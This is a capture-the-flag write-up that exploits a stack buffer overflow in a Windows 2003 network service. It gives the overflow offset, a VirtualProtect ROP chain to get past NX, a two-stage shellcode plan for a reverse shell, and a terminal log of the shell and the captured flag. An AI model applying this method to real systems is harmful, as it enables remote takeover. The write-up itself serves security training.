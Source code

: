 # Hotbox
**Category**: Pwn

420 Points

4 Solves

**Problem description**:
```
open the WINDOWS!!! you know how to reuse a sockfd right?

ncat hotbox.420blaze.in 42069 (expect 1 in 4 requests to fail, but 42070 and 42071 are available now also)

if you can't pwn, plz open your own windows: X13-04874.img - Version 5.2.3790
```
---

This is actually a very easy Windows 2003 pwn, I don't know why there were so few solves. Maybe because it's Windows?

Anyways, using X13-04874.img found online, vmware takes good care of us and sets up a vm very quickly.
Then, we just download a copy of x64dbg and get started working.

We have a few variables on the stack, and there's a pretty blatant buffer overflow in main:

```C
char recvbuf[2048]; // [esp+0h] [ebp-A54h]
struct WSAData WSAData; // [esp+800h] [ebp-254h]
char sendbuf[128]; // [esp+990h] [ebp-C4h]
struct sockaddr addr; // [esp+A10h] [ebp-44h]
struct sockaddr name; // [esp+A20h] [ebp-34h]
int v24; // [esp+A30h] [ebp-24h]
int addrlen; // [esp+A34h] [ebp-20h]
int v26; // [esp+A38h] [ebp-1Ch]
const char *v27; // [esp+A3Ch] [ebp-18h]
DWORD pRead; // [esp+A40h] [ebp-14h]
SOCKET s; // [esp+A44h] [ebp-10h]
SOCKET sock; // [esp+A48h] [ebp-Ch]
u_short port; // [esp+A4Ch] [ebp-8h]
int readlen; // [esp+A50h] [ebp-4h]
int savedregs; // [esp+A54h] [ebp+0h]
// ...
readlen = recv(sock, recvbuf, 2048, 0);
// ...
memcpy((unsigned int)sendbuf, (unsigned int)recvbuf, readlen);
```

So using a test pattern we can find out that our payload will have return address at offset 0xc8.
Now, it seems like we're back in the good old days: back when everything was loaded at 0x401000 i.e. there's no ASLR.
During my testing, my VM even had the same stack buffer addresses as the remote server.
So in our shellcode later, we don't even need to think about grabbing Winapi function addresses since we can just hardcode them.

Unfortunately, there *is* NX. We can get around this very easily by constructing a simple ropchain to VirtualProtect the stack:
```
+0x00 VirtualProtect (stdcall with ebp stack)
+0x04 return address of our shellcode from VirtualProtect
+0x08 0x12c000 (address of stack)
+0x0c 0x4000 (length to protect)
+0x10 0x40 (PAGE_EXECUTE_READWRITE)
+0x14 0x0041901E (lpflOldProtect, this is required to be some writeable address so I just pass it some crap in .data)
```

We can't simply spawn `cmd` like `system("/bin/sh")` because the program closes the socket before returning. So instead we need to make our own connectback.
It's important to note that `sendbuf`, which `recvbuf` is copied into, has a pretty high stack address, around ~0x12fec0, meaning that even if the recv length is 2048, we can't use more than about 0x140 bytes or else we'll segfault from overflowing the stack.
I don't like to think too hard while writing shellcodes, so I split the exploit up into 2 stages:
 - stage1: use buffer overflow and short (<0x140 bytes) shellcode to recv+exec new stage2 shellcode
 - stage2: get shell

In my testing, it seems like bind shell doesn't work on the remote server so we'll opt for a reverse shell instead.
As for the shellcodes, they're pretty easy to assemble. I just took them from exploitdb and repurposed them quickly.
Spawning reverse shell with winsock is pretty easy, you just need to CreateProcess and use the socket as your stdio.

```
python fuck.py

stage1 done
received connectback from ('67.171.55.160', 52682)
stage2 done
Listening on [0.0.0.0] (family 0, port 4444)
Connection from c-67-171-55-160.hsd1.wa.comcast.net 52732 received!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 20FE-D5C9

 Directory of C:\Documents and Settings\Administrator\Desktop

04/22/2018  05:06 AM    <DIR>          .
04/22/2018  05:06 AM    <DIR>          ..
04/20/2018  12:45 AM            95,744 blazectf-1.exe
04/22/2018  05:06 AM                 8 commandos_saw_ur_msg_esbr_lol
04/22/2018  03:14 AM                 5 esbr_was_here_now_stop_pwning_and_start_blazin
04/21/2018  01:02 PM             4,447 fixer.bat
04/20/2018  12:01 AM                54 flag.txt
04/20/2018  12:45 AM                41 run.bat
04/20/2018  12:45 AM                41 run2.bat
04/20/2018  12:45 AM                41 run3.bat
               8 File(s)        100,381 bytes
               2 Dir(s)  39,840,907,264 bytes free

C:\Documents and Settings\Administrator\Desktop>type flag.txt
type flag.txt
blaze{h0w_long_d1d_pwning_ezmode_w1ndows_t0ke_you_smh}
C:\Documents and Settings\Administrator\Desktop>
```

And that's it!
